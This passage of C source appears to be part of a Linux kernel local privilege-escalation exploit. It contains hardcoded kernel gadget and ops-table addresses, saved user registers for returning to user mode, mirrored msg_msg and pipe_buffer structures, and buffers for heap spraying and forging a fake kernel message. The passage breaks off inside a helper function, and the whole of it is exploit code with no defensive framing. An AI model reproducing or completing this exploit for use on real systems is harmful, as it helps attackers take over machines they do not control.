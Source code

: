 ```
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81c00df0
 
#define ANON_PIPE_BUF_OPS 0xffffffff82019340
 
//pt_regs
size_t user_cs, user_ss, user_sp, user_eflags;
 
 
// clang-format on
#define SKB_SHARED_INFO_SIZE 0x140
#define MSG_MSG_SIZE (sizeof(struct msg_msg))
#define MSG_MSGSEG_SIZE (sizeof(struct msg_msgseg))
 
//some struct
struct msg_msg {
  uint64_t m_list_next;
  uint64_t m_list_prev;
  uint64_t m_type;
  uint64_t m_ts;
  uint64_t next;
  uint64_t security;
};
 
struct msg_msgseg {
  uint64_t next;
};
 
struct pipe_buffer {
  uint64_t page;
  uint32_t offset;
  uint32_t len;
  uint64_t ops;
  uint32_t flags;
  uint32_t pad;
  uint64_t private;
};
 
struct pipe_buf_operations {
  uint64_t confirm;
  uint64_t release;
  uint64_t steal;
  uint64_t get;
};
 
struct {
  long mtype;
  char mtext[PRIMARY_SIZE - MSG_MSG_SIZE];
} msg_primary;
 
struct {
  long mtype;
  char mtext[SECONDARY_SIZE - MSG_MSG_SIZE];
} msg_secondary;
 
struct {
  long mtype;
  char mtext[PAGE_SIZE - MSG_MSG_SIZE + PAGE_SIZE - MSG_MSGSEG_SIZE];
} msg_fake;
 
void build_msg_msg(struct msg_msg *msg, uint64_t m_list_next,
                   uint64_t m_list_prev, uint64_t m_ts, uint64_t next) {
  msg->m_list_next = m_list_next;
  msg->m_list_prev = m_list_prev;
```